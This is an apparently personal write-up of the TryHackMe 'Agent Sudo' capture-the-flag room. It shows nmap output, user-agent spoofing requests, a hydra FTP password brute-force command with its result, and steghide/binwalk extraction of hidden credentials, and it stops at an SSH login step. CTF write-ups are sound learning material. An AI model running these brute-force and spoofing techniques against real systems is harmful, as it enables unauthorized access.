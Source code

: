 # Agent Sudo THM

[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

IP address `10.10.55.71`




# Names

- agent R
- chris
- agent J
- agent C
- James

# Recon

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 22:10 AEST
Nmap scan report for 10.10.55.71
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok so 3 ports are open. We can start running an enumaration on `port 80`

The main page has the following message

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R

```



Using the hint on website `change user-agent to C`. Using burp suite we can change the `user-agent`


```html
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.55.71
User-Agent: R
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```html
What are you doing! Are you one of the 25 employees? If not, I going to report this incident

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```


```html
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.55.71
User-Agent: C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
We get the following redirect

```html

Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 

```
Great we can now try to brute force the FTP password using username `chris`

```bash
hydra -l chris -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.55.71 ftp -vv -I

[21][ftp] host: 10.10.55.71   login: chris   password: crystal

```

We get 3 files

- cute-alien.jpg  
- cutie.png
- To_agentJ.txt


the text file has the following

```bash
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent 
```

We can check for any hidden files using stegfile

unable however using 

`binwalk` we can see there is a compressed file attached

```bash

└─$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

decoding the password it gives us `Area51`


```bash
└─$ steghide extract -sf cute-alien.jpg -v
Enter passphrase: 
reading stego file "cute-alien.jpg"... done
extracting data... done
checking crc32 checksum... ok
writing extracted data to "message.txt"... done
                                                                                
┌──(felipe㉿kali)-[~/Documents/THM/agentsudo]
└─$ cat message.txt  
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris


```

so 

ssh james@

`hackerrules!`